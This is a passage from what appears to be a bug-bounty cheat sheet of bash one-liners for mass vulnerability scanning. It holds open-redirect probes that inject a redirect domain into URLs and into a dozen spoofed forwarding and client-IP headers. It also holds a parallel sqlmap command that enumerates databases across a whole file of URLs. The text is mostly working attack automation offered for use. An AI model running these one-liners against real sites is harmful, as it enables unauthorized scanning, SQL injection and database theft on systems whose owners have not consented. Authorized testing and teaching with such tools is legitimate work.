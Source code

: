 Test Case 4

```bash
cat urls.txt | qsreplace "/////redirect.com" | rush -j40 'if curl -Iks -m 10 "{}" | egrep "^(Location|location)\\\\:(| \*| (http|https)\\\\:\\\\/\\\\/| \*\\\\/\\\\/| \[a-zA-Z\]\*\\\\.| (http|https)\\\\:\\\\/\\\\/\[a-zA-Z\]\*\\\\.)redirect\\\\.com"; then echo "Open Redirect found on {}"; fi'
```

### On Headers (File containing Live Domains)

Explanation – Takes input of live domains as a list and append all the headers with the injected value in the request and checks if it reflected in response header (Location)

```bash
cat live-domains | rush -j40 'if curl -Iks -m 10 "$line" -H "CF-Connecting\_IP: [https://redirect.com](https://redirect.com/)" -H "From: root@[https://redirect.com](https://redirect.com/)" -H "Client-IP: [https://redirect.com](https://redirect.com/)" -H "X-Client-IP: [https://redirect.com](https://redirect.com/)" -H "X-Forwarded-For: [https://redirect.com](https://redirect.com/)" -H "X-Wap-Profile: [https://redirect.com](https://redirect.com/)" -H "Forwarded: [https://redirect.com](https://redirect.com/)" -H "True-Client-IP: [https://redirect.com](https://redirect.com/)" -H "Contact: root@[https://redirect.com](https://redirect.com/)" -H "X-Originating-IP: [https://redirect.com](https://redirect.com/)" -H "X-Real-IP: [https://redirect.com](https://redirect.com/)" | egrep "^(Location|location)\\\\:(| \*| (http|https)\\\\:\\\\/\\\\/| \*\\\\/\\\\/| \[a-zA-Z\]\*\\\\.| (http|https)\\\\:\\\\/\\\\/\[a-zA-Z\]\*\\\\.)redirect\\\\.com" || curl -Iks -m 10 "$line" -H "CF-Connecting\_IP: [redirect.com](http://redirect.com/)" -H "From: [root@redirect.com](mailto:root@redirect.com)" -H "Client-IP: [redirect.com](http://redirect.com/)" -H "X-Client-IP: [redirect.com](http://redirect.com/)" -H "X-Forwarded-For: [redirect.com](http://redirect.com/)" -H "X-Wap-Profile: [redirect.com](http://redirect.com/)" -H "Forwarded: [redirect.com](http://redirect.com/)" -H "True-Client-IP: [redirect.com](http://redirect.com/)" -H "Contact: [root@redirect.com](mailto:root@redirect.com)" -H "X-Originating-IP: [redirect.com](http://redirect.com/)" -H "X-Real-IP: [redirect.com](http://redirect.com/)" | egrep "^(Location|location)\\\\:(| \*| (http|https)\\\\:\\\\/\\\\/| \*\\\\/\\\\/| \[a-zA-Z\]\*\\\\.| (http|https)\\\\:\\\\/\\\\/\[a-zA-Z\]\*\\\\.)redirect\\\\.com"; then echo "The URL $line with vulnerable header may be vulnerable to Open Redirection. Check Manually";fi'
```

## 2. SQL Injection Check OneLiner

### On list of URLs

Explanation – Rush takes input urls file and parallely runs 20 workers of sqlmap. First it checks wheather if the URL is alive or not.

```bash
cat urls.txt | rush -j20 'if curl -Is "{}" | head -1 | grep -q "HTTP"; then echo "Running Sqlmap on '{}'"; sqlmap -u "{}" --batch --random-agent --dbs; fi'
```

## 3. Open Redirect Check based on Location Header

Explanation – If the URL has the response as 301,302,307, then it checks if the Location header value is present in the original url or not. If the value is present in the url or parameter, then it tries to replace it with the custom value, if it gets the reflected custom value in response header, then it alerts as open redirect found.
